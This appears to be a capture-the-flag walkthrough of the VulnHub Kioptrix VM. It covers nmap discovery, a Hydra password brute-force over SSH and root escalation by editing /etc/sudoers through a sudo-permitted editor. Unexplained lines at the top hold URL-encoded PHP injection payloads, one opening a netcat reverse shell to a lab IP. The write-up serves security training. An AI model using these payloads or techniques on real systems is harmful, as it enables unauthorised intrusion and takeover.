https://secuniaresearch.flexerasoftware.com//secunia_research/2011-21/
%27%29%3B%24%7Bprint%28%27test%27%29%7D%3B%23 -> ');${print('test')};#
%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%2010.0.2.5%204444%27%29%7D%3B%23%22 -> ');${system('nc -e /bin/sh 10.0.2.5 4444')};#"

# Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `nmap -sn 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `nmap` command specify that an host discovery scan that skips the port scan phase should be used, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.





`nmap` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.7`, because nmap identifies them as VirtualBox virtual machines. Knowing that VirtualBox uses `10.0.2.3` as a nameserver, we can tell that `10.0.2.7` is the target.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.7` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.7`, which will just tell us the services that are running.



We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.



Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.7` in Firefox gives us a webpage for Ligoat Security, with a few tabs for "Home", "Blog", and "Login.



Going to the "Blog" section shows two blog entries, one of which caught my eye. The "New Lead Programmer" entry gives us the username for their new lead programmer, "loneferret", which is something that we can leverage to gain access to their systems.



We can use THC-Hydra to try a dictionary attack on the "loneferret" user's SSH password. To properly use a dictionary attack, we need a file with possible passwords that Hydra can try to log in with. I used [this file](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt "wordlist I used with THC-Hydra"), which includes 10,000 common passwords. Running the command `hydra -t 4 -l loneferret -P /usr/share/wordlists/top-10000.txt 10.0.2.7 ssh` will start Hydra with four tasks, meaning that there will be a maximum of 4 tries going on at once, using the login "loneferret" and wordlist that I downloaded, targeting the IP address `10.0.2.7` through the SSH service. As Hydra needs to try many passwords, it's typical that it will take a while to run.



Once Hydra finds a valid password, it will stop running and print out the result. In this case, it looks like the password for the "loneferret" user is "starwars". Now we can log in to the victim through the command `ssh loneferret@10.0.2.7` and entering the password when prompted.



## Elevating Access

Once we're logged in, we can use the `ls` command to list all the contents of the current directory. We see that there's a file called "CompanyPolicy.README", which we can read with `cat CompanyPolicy.README`. In it, we find out that the "loneferret" account has access to the "sudo ht" command. If they're able to use `sudo` on this command, let's see if they can use it on any other one. Trying to execute `sudo su root` or `sudo /bin/bash` ends up with an error that the user is not allowed to execute the given command as root, showing that they can only execute `ht` as root.



Let's see what `ht` is. In my case, trying to run it with `sudo ht` gave me an error that stated "Error opening terminal: xterm-256color." I fixed this issue by using the command `export TERM=xterm`, which changes the text window's capabilities to support 8 colors, instead of 256. With the error fixed and the command running, we can see that `ht` is used as a text editor.



Since we run `ht` with `sudo`, this means that `ht` is running as the root user, allowing us to modify privileged system files. One file of interest to us would be /etc/sudoers, as this is the file where limits on the `sudo` command would be kept, and now, we can use `sudo ht -t /etc/sudoers` to open and edit the file.



We can see that loneferret is only allowed to use the `sudo` command with /usr/local/bin/ht, and that they're locked out of using /usr/bin/su. We can modify this so that we can use /bin/bash with `sudo` by adding ", /bin/bash" to the loneferret line, and so that we can use the `su` command by deleting the exclamation mark in front of it.



Saving the changes with `F2` and quitting with `CTRL+C`, we can now try to use the `sudo /bin/bash` command to get a shell as root again, and this time, it works!


